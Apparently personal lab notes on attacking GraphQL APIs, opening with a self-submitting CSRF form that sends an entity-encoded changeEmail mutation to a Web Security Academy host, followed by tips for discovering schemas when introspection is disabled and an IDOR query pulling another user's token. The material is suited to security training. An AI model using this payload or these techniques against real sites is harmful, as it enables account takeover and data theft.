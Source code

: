 ```html
<html>
	<form
	action="https://0aa600a103c0f9ca80800d6700e90040.web-security-academy.net/graphql/v1"
	method="POST">
		<input type="hidden" name="query" value="&#x6d;&#x75;&#x74;&#x61;&#x74;&#x69;&#x6f;&#x6e;&#x20;&#x63;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x28;&#x24;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x3a;&#x43;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x49;&#x6e;&#x70;&#x75;&#x74;&#x21;&#x29;&#x20;&#x7b;&#x63;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;&#x28;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x3a;&#x24;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x29;&#x20;&#x7b;&#x65;&#x6d;&#x61;&#x69;&#x6c;&#x7d;&#x7d;"/>
		<input type="hidden" name="operationName" value="&#x63;&#x68;&#x61;&#x6e;&#x67;&#x65;&#x45;&#x6d;&#x61;&#x69;&#x6c;"/>
		<input type="hidden" name="variables" value="&#x7b;&#x22;&#x69;&#x6e;&#x70;&#x75;&#x74;&#x22;&#x3a;&#x7b;&#x22;&#x65;&#x6d;&#x61;&#x69;&#x6c;&#x22;&#x3a;&#x22;&#x74;&#x65;&#x73;&#x74;&#x34;&#x40;&#x74;&#x65;&#x73;&#x74;&#x2e;&#x63;&#x6f;&#x6d;&#x22;&#x7d;&#x7d;"/>
	</form>
	<script>
		document.forms[0].submit()
	</script>
</html>
```

---

# Introspection disabled

The idea is to find some public queries that can do things like getUser or some interesting mutations.

First of all try to bypass security like adding an enter. [[🕸️ GraphQL API Vulnerabilities#Finding a hidden GraphQL endpoint]].

You can take advantage of **field suggestion feature** that is enable by default to discover new fields, example: write something bad like usr and in the response will see something like: Did you mean user?.


1. Test introspection via GET. It's possible that is not allowed via POST but GET?. You can change content-type in post with `x-www-form-urlencoded`:

```
/graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

2. **Search in javascript files**(To search in all files in Firefox > Debugger > ctrl + shift + f) for words like: **graphql**, query, mutation. You need to know the endpoints and how to make them.

3. If have ID like parameter you can try to change and provocate an IDOR.

```js
query {
  currentUser(internalId: 1337) {
    role
    name
    email
    token
  }
}
```
